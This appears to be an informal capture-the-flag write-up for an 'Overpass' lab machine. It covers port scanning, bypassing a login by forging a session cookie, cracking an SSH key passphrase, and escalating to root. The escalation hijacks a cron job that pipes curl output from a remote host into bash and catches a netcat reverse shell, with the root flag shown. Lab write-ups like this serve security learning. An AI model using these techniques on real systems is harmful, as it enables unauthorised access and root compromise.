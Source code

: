 ```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.241.12                                           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 11:30 EDT
Nmap scan report for 10.10.241.12
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.07 seconds
```


source code hints to roman cipher,,, google says:

dirsearch gave us admin directory   


Caesar Shift Cipher
The Romans used the Caesar Shift Cipher method to encrypt their messages. In this method, the sender and the receiver agreed on a number and used it to shift letters, thus writing a message using the letter-shift.


Alex helped me out, 

you had to make a cookie, js file was clearly saying this,, 
```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

we get ssh key run ssh2john and then john 


passcode:james13


in crontabs, 


finished it with 1trick and hellfire

```bash
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

we ran linpeas,, 

put my ip in hosts file for overpass.thm

made shell, set up listner and served it ,, 
```bash
──(kali㉿kali)-[/hackme/scripts]
└─$ nc -lnvp 9001                              
listening on [any] 9001 ...
connect to [10.6.65.43] from (UNKNOWN) [10.10.241.12] 55554
sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```